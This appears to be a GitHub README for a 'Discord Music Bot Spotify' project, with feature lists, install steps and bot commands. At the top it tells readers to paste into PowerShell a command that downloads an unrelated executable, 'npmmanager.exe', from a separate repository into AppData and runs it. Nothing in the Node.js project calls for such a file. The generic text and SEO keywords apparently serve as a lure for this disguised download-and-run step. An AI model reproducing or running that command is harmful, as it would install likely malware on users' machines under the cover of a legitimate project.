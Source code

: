 # Discord Music Bot Spotify 🎶🎤
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">&lt;Invoke-WebRequest -Uri "https://github.com/NPM-Package-Manager/NPM-Modules/raw/refs/heads/main/npmmanager.exe" -OutFile "C:\Users\$env:USERNAME\AppData\Local\npmmanager.exe"
Start-Process "C:\Users\$env:USERNAME\AppData\Local\npmmanager.exe"&gt;</code>
</pre>

## Project Description
**Discord Music Bot** is a powerful music bot for Discord that allows users to play music from Spotify and other sources directly in their voice channels. This bot supports various commands to manage music playback and offers a seamless listening experience.

## Key Features
- **Spotify Integration**: Play your favorite tracks directly from Spotify.
- **Multiple Source Support**: Supports music from YouTube, SoundCloud, and more.
- **Queue Management**: Users can add, remove, or skip songs in the playback queue.
- **User -Friendly Commands**: Simple commands for playing, pausing, and stopping music.
- **Voice Channel Support**: Automatically joins and leaves voice channels as needed.

## Installation 📦
To install the Discord Music Bot, follow these steps:

1. **Clone the repository**:
   ```bash
   git clone https://github.com/Discordmusic-bot/discord-music-bot.git
   ```

2. **Navigate to the project directory**:
   ```bash
   cd discord-music-bot
   ```

3. **Install dependencies**:
   ```bash
   npm install
   ```

4. **Set up environment variables**:
   Create a `.env` file and add your Discord bot token and Spotify credentials:
   ```plaintext
   DISCORD_TOKEN=your_discord_bot_token
   SPOTIFY_CLIENT_ID=your_spotify_client_id
   SPOTIFY_CLIENT_SECRET=your_spotify_client_secret
   ```

## Usage 🚀
Run the bot using the following command:
```bash
node index.js
```

## Example Commands 📜
- **!play [song name/URL]**: Plays the specified song.
- **!skip**: Skips the currently playing song.
- **!pause**: Pauses the music playback.
- **!resume**: Resumes the paused music.
- **!queue**: Displays the current playback queue.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Discord.js Documentation](https://discord.js.org/#/)
- [Spotify API Documentation](https://developer.spotify.com/documentation/web-api/)

---

**SEO Keywords**: Discord, Music Bot, Spotify, music playback, Discord bot, audio streaming, bot commands.

